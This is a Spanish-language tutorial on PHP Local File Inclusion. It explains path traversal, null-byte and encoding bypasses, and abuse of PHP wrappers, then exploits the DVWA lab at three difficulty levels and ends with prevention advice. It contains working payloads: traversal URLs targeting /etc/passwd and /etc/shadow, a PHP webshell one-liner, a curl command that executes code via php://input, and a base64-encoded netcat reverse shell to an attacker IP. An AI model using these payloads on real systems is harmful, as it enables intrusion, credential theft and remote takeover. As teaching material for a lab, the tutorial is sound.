


# Vulnerabilidad LOCAL FILE INCLUSION
La vulnerabilidad de inclusión de archivos (LFI) es un ataque en la que los atacantes engañan a una aplicación web para que ejecute o exponga archivos privados en un servidor web. Estos archivos pueden exponer información confidencial y, en casos graves, pueden generar secuencias de comandos entre sitios (Cross-Site Scripting) y ejecución remota de código. LFI figura en el top de las principales vulnerabilidades de aplicaciones web de OWASP. Dependiendo de la gravedad, también puede conducir a:
-
Denegación de Servicio (DoS).
-
Ejecución de código del lado del cliente, como JavaScript, que da lugar a ataques XSS.
-
Ejecución de código en el servidor web.
-
Exposición de información confidencial.

¿Cómo funciona?
Esta vulnerabilidad existe cuando una aplicación web incluye un archivo sin desinfectar correctamente la entrada, lo que permite que un atacante manipule la entra de la URL e inyecte caracteres transversales en la ruta (como ../) en busca de archivos existentes en el servidor web. Ocasionalmente, ocurre cuando una página recibe, como entrada, la ruta del archivo que debe incluirse y esta entrada no se desinfecta adecuadamente. La mayoría de ejemplos apuntan a scripts PHP vulnerables, aunque también se da en caso de tecnologías como ASP, JSP, entre otras.
La siguiente URL es un ejemplo de cómo un LFI permite a los atacantes extraer información confidencial de un servidor por medio del nombre de un archivo:
$ https://website.com/?module=products.phpUn atacante puede modificar la URL para que sea vea así:
$ https://website.com/?module=../../../../etc/passwdLo que hará aquí el servidor es mostrar el contenido del fichero /etc/passwd. El contenido de este fichero determina quien puede acceder al sistema de manera legitima y que se puede hacer dentro del sistema. Se debe ser sumamanete cuidadoso con él, evitar errores y fallos de seguridad que puedan comprometer el sistema a base de accesos no autorizados. El fichero registra todas las cuentas de usuarios, así como las claves y privilegios de las mismas. Si se cumplen las condiciones mencionadas anteriormente, un atacante vería algo como lo siguiente:
$ root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
alex:x:500:500:alex:/home/alex:/bin/bash
margo:x:501:501::/home/margo:/bin/bash

-
1)
Usuario: Se utiliza cuando el usuario inicia sesión. Debe tener entre 1 y 32 caracteres de longitud. -
2)
Contraseña: El carácter x nos indica que la contraseña cifrada se almacena en el archivo /etc/shadow. -
3)
ID de usuario (UID): Cada usuario debe tener asignado un ID de usuario (UID). El UID 0 (cero) está reservado para root y los UID 1-99 están reservados para otras cuentas predefinidas. El sistema reserva más UID 100-999 para cuentas/grupos administrativos y del sistema. -
4)
ID de grupo (GID): Es el ID del grupo principal al que pertenece el usuario (almacenado en el archivo /etc/group). -
5)
Información de ID de usuario (GECOS): Es el campo de comentarios. Le permite agregar información adicional sobre los usuarios, como el nombre completo del usuario, el número de teléfono, etc. -
6)
Directorio de inicio: La ruta absoluta al directorio en el que estará el usuario cuando inicie sesión. Si este directorio no existe, el directorio de usuarios se convierte en /. -
7)
Comando/Shell: Esta es la ruta absoluta del shell (/bin/bash) predeterminado para el inicio de sesión del usuario del sistema GNU/Linux.
El shell establecido en /sbin/nologin indica que deniega el acceso al usuario de iniciar sesión al sistema GNU/Linux.

El siguiente fragmento de código es un ejemplo común de una vulnerabilidad LFI:
$ <?php
$file = $_GET['file'];
if(isset($file))
include("pages/$file");
else
include("index.php");
?>Para explotar este escenario, uno podría simplemente manipular el parámetro del archivo para leer un archivo aleatorio como este:
$ https://website.com?file=../../../../../../etcSi todo tiene éxito, puede comenzar a recuperar algunos archivos para obtener información básica sobre el sistema. Lo más utilizados son:
$ - /etc/passwd
- /etc/hostname
- /etc/shadow
- /etc/group
- /etc/resolv.conf
- /etc/crontab
- /etc/mysql/my.cnf
- /proc/version
- /proc/mounts
- /proc/cmdline
- /proc/self/environInyección de Bytes Nulos
La inyección de bytes nulos es una técnica de explotación activa que se utiliza para evadir los filtros de verificación de la infraestructura web al añadir caracteres de bytes nulos codificados en URL (%00 o 0x00 en hexadecimal) a los datos proporcionados por el usuario. Esta técnica se puede utilizar para realizar otros ataques, como la exploración de directorios, el cruce de rutas, la inyección de SQL, la ejecución de código arbitrario, otros. En el caso de LFI, se utiliza como carácter reservado para marcar el final de una cadena. Una vez utilizado, se ignorará cualquier carácter después de este byte especial. Por lo general, la forma de inyectar este carácter sería con la cadena codificada de URL %00 agregándola a la ruta solicitada, por ejemplo:
$ https://website.com/index.php?file=../../../../etc/passwd%00El ejemplo anterior lo que hace es ignorar la extensión php que se agrega al nombre de archivo de entrada, devolviendo una lista de usuarios. Esto nos serviría si el código PHP es similar a lo siguiente:
$ $module=$_GET['module'];
require($module."/config.php");En el caso de que sea ?module=/etc/hosts%00, el sistema operativo ignora lo que sigue después del %00.
Codificación
La manipulación de variables que hacen referencia a archivos de secuencias de ../ y sus variaciones, permite eludir el filtrado de entrada mal implementado. Algunos ejemplos son:
| URL | URL Doble | Unicódigo UTF-8 | Unicode de 16 bits | |
|---|---|---|---|---|
| . | %2e | %252e | %c0%2e %e0%40%ae %c0%ae | %u002e |
| / | %2f | %252f | %c0%2f %e0%80%af %c0%af | %u2215 |
| \ | %2c | %252c | %c0%5c %c0%80%5c | %u2216 |
| ../ | %2e%2e%2f | %252e%252e%252f | %c0%ae%c0%ae%c0%af | %uff0e%uff0e%u2215 |
| ..\ | %2e%2e%2c | %252e%252e%252c | %c0%ae%c0%ae%c0%af | %uff0e%uff0e%u2216 |
URL Doble:
$ https://website.com/index.php?file=%252e%252e%252fetc%252fpasswdUnicódigo UTF-8:
$ https://website.com/index.php?file=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwdBypass filtro:
$ https://website.com/index.php?file=..///////..////..//////etc/passwdPHP Wrappers
PHP tiene una serie de envoltorios de los que a menudo se puede abusar para eludir varios filtros de entrada mediante secuencia, petición, entrada y salida de datos.
- p://filter: El wrapper
filterpermite encodear el archivo específico, lo que es útil para leer aquellos archivos PHP que el navegador interpretaría directamente. Por ejemplo:
$ <?php
// Usuario: admin | Contraseña: sUp3rPassw00rd!
echo "Archivo vacio"
?>Como se observa en el código, tiene el usuario y contraseña en un comentario. Pero si iniciamos el servidor y accediéramos al archivo desde el navegador solo vemos la salida del código interpretado:

Sin embargo, usando el wrapper filter, seremos capaces de leer el código PHP completo. A modo de ejemplo, he creado un archivo index.php vulnerable a LFI. Por lo que, el payload que introduciremos para hacer uso del wrapper y leer el archivo config.php, es el siguiente:
$ php://filter/convert.base64-encode/resource=config.php
De esta manera, nos devuelve el contenido del archivo config.php pero en base64, por lo que si decodeamos la salida con bash, obtenemos el archivo completo:
$ ┌─[root@R3LI4NT]─[/var/www/html]
└──╼ echo 'PD9waHAKCi8vIFVzdWFyaW86IGFkbWluIHwgQ29udHJhc2XDsWE6IHNVcDNyUGFzc3cwMHJkIQoKZWNobyAiQXJjaGl2byB2YWNpbyIKCj8+' | base64 -d
- zip://: El wrapper
zippermite ejecutar un archivo PHP que se haya metido dentro de un archivo ZIP. El archivo ZIP puede tener cualquier extensión. Se requiere una instalación manual del wrapper:
$ sudo apt-get install php-zipEjemplo de ejecución de webshell a través del wrapper zip:
$ ┌─[root@R3LI4NT]─[/var/www/html]
└──╼ echo '<?php system($_GET['cmd']); ?>' > config.php && zip test.zip config.php
En caso de no encontrarse en el directorio actual, se le específica el nombre del directorio donde se encuentra el archivo ZIP.
$ zip://<archivo-ZIP>%23<archivo-PHP>&cmd=ls
El abuso de este envoltorio podría permitir que un atacante diseñe un archivo ZIP malicioso que podría cargarse en el servidor, por ejemplo, como una imagen de avatar o utilizando cualquier sistema de carga de archivos disponible en el sitio web de destino.
- data://: El wrapper
datapermite incluir datos externos, como código PHP. El contenido es de modo lectura o de tipo medio que se puede imprimir más tarde. Este wrapper es funcional si la opción de allow_url_include está activada en la configuración de PHP.
Hay dos formas de ejecutar código PHP en este wrapper. La primera, en texto plano:
$ data:text/plain,<código-PHP>Y la segunda en base64, simplemente tendríamos que encodear el código PHP:
$ ┌─[root@R3LI4NT]─[/home/whoami/]
└──╼ echo '<?php system($_GET['cmd']); ?>' | base64
$ data://text/plain;base64,<código-PHP-base64>
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=De esta forma, estamos definiendo un parámetro para ejecutar comandos, el payload para ejecutar el comando id sería:
$ data://text/plain;base64,<código-PHP-base64>/Pgo=&cmd=id
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
El parámetro id se encarga de imprimir la información de identificación de usuario (UID) y de grupo (GID). Cada UID es único para cada usuario, mientras que el GID puede constar de más de un UID. Con el comando id -a se imprime el nombre de usuario y todo el grupo al que pertenece dicho usuario.
- php://input: Este wrapper es un flujo de solo lectura que le permite leer datos sin procesar del cuerpo de la solicitud. Es parecido al wrapper data y también debe tener habilitada la opción de allow_url_include.
Se podría ejecutar comandos mandando el código PHP en los datos de una petición POST.
$ curl -s -X POST -d '<código-PHP>' 'http://example.com/index.php?file=php://input'Por ejemplo:
$ ┌─[root@R3LI4NT]─[/home/whoami/]
└──╼ curl -s -X POST --data "<?php system('id'); ?>" "http://localhost/index.php?file=php://input"
uid=0(root) gid=0(root) grupos=0(root),4(adm),119(wireshark)121(bluetooth),137(scanner),141(kaboxer)- expect://: Este wrapper da acceso a una PTY (pseudo-teletype), que en UNIX básicamente se refiere a una terminal. Brinda acceso a los procesos stdio, stdout y stderr a través de PTY.
$ expect://<comando>Truncamiento de ruta
El Truncamiento de ruta es otra técnica para conseguir el mismo propósito que Null Byte, es decir, ignora toda la cadena que se sitúe después de la variable. La mayoría de las instalaciones de PHP limitan los nombres de archivo a 4096 bytes. Si un nombre de archivo es más largo, PHP lo trunca y descarta todos los caracteres adicionales. Sin embargo, los atacantes pueden eliminar la limitación de 4096 bytes de la extensión .php, manipulando el proceso. Cabe decir que está técnica se parcheo en la versión 5.3 de PHP. Para que esto funcione, hace falta una serie de requisitos: el dato que se le pasa a la variable debe empezar con un string, el byte 4096 debe de ser un punto, la ruta que le indiquemos tiene que tener un número de caracteres impar.
El paylaod debe sobrepasar los 4096 bytes:
$ a/../etc/hosts/./././././/etc/hosts es equivalente a /etc/hosts/. Por ejemplo:
$ http://localhost/index.php?file=a/../../../../../../../../etc/hosts/.
El carácter aleatorio (a) es necesario al inicio, de lo contrario, no funcionaria:

Es lo mismo colocar una a que colocar 5, 7, 11, etc, siempre y cuando sea un número impar. Si quisiéramos generar 4096 bytes con shell scripting, lo haríamos con el siguiente comando:
$ ┌─[root@R3LI4NT]─[/home/whoami/]
└──╼ for i in {1..2048}; do echo -n '/.'; done
# Explotar LOCAL FILE INCLUSION | Dificultad baja
Como muestra de lo anterior, tomaré uso de la máquina Metasploitable 2 para demostrar como un atacante puede aprovechar esta vulnerabilidad para extraer datos confidenciales. DVWA (Damn Vulnerable Web Application) es una aplicación web PHP/MySQL vulnerable. Su objetivo es ayudar a los profesionales de seguridad a probar sus habilidades y herramientas en un entorno controlado y legal.
Debajo se encuentran las credenciales.
Usuario: admin
Contraseña: password

Si nos dirigimos a seguridad de DVWA podemos establecer el nivel del mismo, escogeré el nivel bajo e iré incrementado la dificultad hasta alcanzar a alta. En la sección de File Inclusion se observa un código simple escrito en PHP vulnerable a LFI:

Lo único que hay que hacer es identificar y explotar cualquier secuencia de comando por medio de un archivo de un servidor web, por ejemplo:
$ page=/../../../../etc/passwdEl archivo include.php es manipulado (fuzzing) con el parámetro de ubicación del archivo (/etc/passwd), devolviendo el contenido del servidor web:

Para obtener información del sistema GNU/Linux que se esta ejecutando detrás, es tan sencillo con probar el siguiente payload LFI:
$ page=../../../../../../proc/version
Este proceso puede ser automatizado con un pequeño script que programe en Python. Su nombre es LFIscanner y su instalación es sencilla:
$ ┌─[root@R3LI4NT]─[/home/whoami/]
└──╼ git clone https://github.com/R3LI4NT/LFIscanner && cd LFIscanner && pip3 install -r requirements.txtPara poner en marcha el script se debe especificar con el parámetro -t/--target la URL pero hasta el signo de igual (=), seguidamente el archivo donde contendrá los payloads LFI con el parámetro -p/--payload, y el último parámetro es opcional si se quiere extraer la información -e/--extract. Por ejemplo:
$ ┌─[root@R3LI4NT]─[/home/whoami/]
└──╼ python3 LFIscanner.py -t 'http://192.168.25.128/muilliidae/?page=' -p payloads.txt -e
Burp Suite es una herramienta de pentesting muy útil que sirve para interceptar los datos que enviamos de un cliente a un servidor. Lo primero será configurar un servidor proxy para que registre todo el tráfico que se genere en el navegador web, para ello debemos ejecutar Burp Suite e ir a la pestaña de Proxy -> Options y verificar si tenemos el proxy como se muestra a continuación:

Luego en el navegador, por ejemplo Firefox ir a Preferencias -> Avanzadas -> Proxy de Red -> Configuración -> Configuración Manual del Proxy
En Proxy HTTP escribir 127.0.0.1, en Puerto escribir 8080 y tildar el mismo proxy para todo:

En Burp Suite debemos verificar en la pestaña Proxy -> Intercept que esté en Intercept is on para capturar los datos. Al final de la URL modificamos el archivo include.php a file1.php y damos enter.

Modificamos la primera línea de GET y reemplazamos el archivo PHP por el wrapper input seguido del comando ls para que muestre los datos del servidor. Al final agregamos el código PHP vulnerable:
$ <?php echo shell_exec($_GET['cmd']);?>
En lugar de ls puede usar cualquier comando como pwd o id. Finalmente se reenvía la solicitud (Forward).

# Explotar LOCAL FILE INCLUSION | Dificultad media
Con esto fue suficiente para explotar con éxito la vulnerabilidad LFI para leer archivos y ejecutar comandos. Cambiemos a dificultad de nivel medio para más desafíos.

Probando las hazañas que usamos en dificultad baja, notará que no puede leer los archivos como antes al probar el método de recorrido de ruta. Sin embargo, aún es posible ejecutar comandos con el wrapper php://input. El wrapper php://filter es otra forma de mostrar y leer los archivos directamente.
$ ?page=php://filter/resource=/etc/passwd 
Codificación a Base64
Ahora, veremos una forma más de usar el comando exploit. El exploit ha utilizar tiene una limitación, solo es posible usar comandos como ls, pwd, id que no contengan espacios, por lo que modifiquemos el exploit para hacerlo funcionar con varios comandos de varias palabras. Para eso, tenemos que convertir nuestro comando en un texto codificado a base64 y luego decodificarlo al ejecutar el comando. Vaya a la pestaña Decoder -> en el primero recuadro pegue el comando -> Encode as Base64:

Copie el texto codificado y péguelo en el wrapper de entrada php://input:
$ ?page=php://input&cmd=Y2F0IC9ldGMvcGFzc3dkLuego, en lugar de shell_exec, usaremos passthru:
$ <?php echo passthru(base64_decode($_GET['cmd']));?>
Al ejecutar el exploit modificado como se hizo en dificultad baja. Una vez más, se obtendrá los datos de /etc/passwd.

Reverse Shell
En esta ocasión intentaremos obtener una reverse shell usando nuevamente la codificación base64 y el mismo exploit usando el wrapper php://input. Lo único que cambiaremos es el comando cat, codificamos el comando nc (netcat) en donde le indicamos el tipo de shell, la IP local de la máquina atacante y el puerto a escucha.
nc = comando abreviado de netcat, genera una conexión de shell inversa.
-e = especificar el nombre del archivo a ejecutar.
/bin/sh = ejecutable que representa el shell del sistema.
192.168.25.129 = IP de la máquina atacante.
4444 = puerto de la máquina atacante ha escucha de la conexión.
$ nc -e /bin/sh 192.168.25.129 4444Ahora, codifiquemos este comando usando la opción decodificador en Burp Suite como lo hicimos anteriormente.

Antes de ejecutar el exploit, abra una terminal y ejecute el comando de escucha en la máquina atacante.
-l = Escucha de conexión.
-p = especifica el puerto en el que debe escuchar.
-vv = información más detallada.
4444 = puerto de la máquina atacante ha escucha de la conexión.

Finalmente, ejecute el exploit, cambie el texto codificado y reenvíe la solicitud.
$ ?page=php://input&cmd=bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjI1LjEyOSA0NDQ0
Verifique la terminal. Si todo sale correctamente, obtendrá un shell inverso y podrá ejecutar comandos.

# Explotar LOCAL FILE INCLUSION | Dificultad alta
Al cambiar la dificultad a alta y comprobando todas las hazañas de dificultad baja y media, notará que ninguna de ellas funciona. El servidor es mas seguro y solo acepta entradas con nombres de archivo (file), si intenta algo más, mostrará "archivo no encontrado". Cambie la URL de include.php a:
$ ?page=file:///etc/passwd
Lo mismo si quisiera ver la versión del sistema Linux:
$ ?page=file:///proc/version
Sin importar el nivel de seguridad en alto podemos recopilar información confidencial. Así es como puede explotar la vulnerabilidad de inclusión de archivos utilizando archivos locales en el servidor web.
# PREVENIR LOCAL FILE INCLUSION
Existen varios métodos que le permiten evitar vulnerabilidades de inclusión de archivos local en su código. La primera es evitar pasar por completo nombres de archivos en la entrada del usuario, así como otras fuentes de datos que el atacante puede aprovechar (Ej. cookies). Como segunda alternativa (en caso de que su aplicacion requiera de nombres de archivos de entrada del usuario), cree una lista blanca de archivos seguros o almacene los nombres de archivos en la base de datos y use identificadores de fila de tabla en la entrada del usuario. Otra opción es recurrir asignaciones por medio de URL para identificar archivos sin riesgo de inclusión de archivos locales. Por parte del administrador, se debería eliminar los caracteres "/" o "\" de los datos enviados por el usuario, así como evitar la suba de directorios mediante el uso de puntos "../" o "..\".
Mantener bien las reglas configuradas en el firewall para evitar conexiones salientes a Internet o a otro servidor. Dentro del archivo PHP .ini se debe deshabilitar:
-
allow_url_fopen (Off): Permite tratar las URLs como archivos. Si está habilitada tendremos una vulnerabilidad LFI.
-
allow_url_include (Off): Permite hacer llamadas include/require a URLs como archivos. Si está habilitada junto con la anterior tendremos una vulnerabilidad LFI y RFI.
Ruta:
$ /etc/php/VERSION/apache2/php.ini
Y por último, evitar códigos que pueda incluir una variable para cargar una página, por ejemplo:
$ $pagina = $_GET['page'];
include($pagina);De esta forma, el usuario o atacante jugará con la variable page y podrá cargar otras páginas. Lo que se debe hacer es añadir include directamente la página que deseamos cargar sin incluir una variable del método GET o POST.
$ include('index.html');